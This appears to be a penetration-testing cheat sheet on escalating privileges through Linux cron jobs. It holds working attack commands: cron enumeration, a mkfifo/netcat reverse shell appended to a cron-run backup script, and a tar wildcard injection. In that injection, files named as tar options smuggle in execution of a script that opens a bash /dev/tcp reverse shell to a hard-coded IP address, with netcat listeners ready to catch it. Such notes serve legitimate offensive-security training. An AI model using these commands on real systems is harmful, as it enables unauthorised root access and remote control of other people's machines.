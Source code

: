 # Cron jobs

_<mark style="background-color:purple;">**Enumerate cron jobs**</mark>_

```powershell
ls -lah /etc/cron*crontab -l
sudo crontab -l
grep "CRON" /var/log/syslog
```

_<mark style="background-color:purple;">**add a reverse shell to cronjob**</mark>_

```powershell
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip} 1234 >/tmp/f" >> user_backups.sh
```

`nc -lvnp 1234`&#x20;



### Cron jobs with tar wildcards:

* e.g `CRON[185223]: (root) CMD (cd /opt/admin && tar -zxf /tmp/backup.tar.gz *)`

Create 2 special files for tar:

```sh
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh\ shell.sh
```

Create shell.sh:

{% code overflow="wrap" %}
```sh
echo "bash -i >& /dev/tcp/192.168.45.214/1111 0>&1" > shell.sh

chmod +x shell.sh
```
{% endcode %}

Set up listener on kali:

`nc -lvnp 1111`
